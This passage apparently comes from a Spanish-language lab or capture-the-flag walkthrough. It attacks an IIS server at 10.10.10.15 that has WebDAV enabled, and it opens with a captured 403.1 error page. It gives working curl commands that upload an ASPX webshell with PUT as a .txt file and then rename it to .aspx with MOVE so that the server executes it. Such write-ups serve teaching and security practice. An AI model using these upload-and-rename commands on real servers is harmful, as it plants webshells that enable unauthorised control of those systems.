 ```bash

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>
```

Probaremos de subir la **webshell** con extensión `.txt` al servidor web.

```bash
❯ curl -s -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx
```

Verificaremos accediendo a la ruta del archivo subido que ha interpretado el archivo y se visualiza el contenido de la **webshell** pero no podemos hacer uso de ella.

<figure><img src="../../.gitbook/assets/imagen (262).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, como también disponemos del método `MOVE` habilitado en el servidor web, lo que realizaremos es renombrar el archivo `cmd.txt` que subimos para que sea renombrado a `cmd.aspx`.

```bash
❯ curl -s -X MOVE -H "Destination:http://10.10.10.15/cmd.aspx" http://10.10.10.15/cmd.txt
```
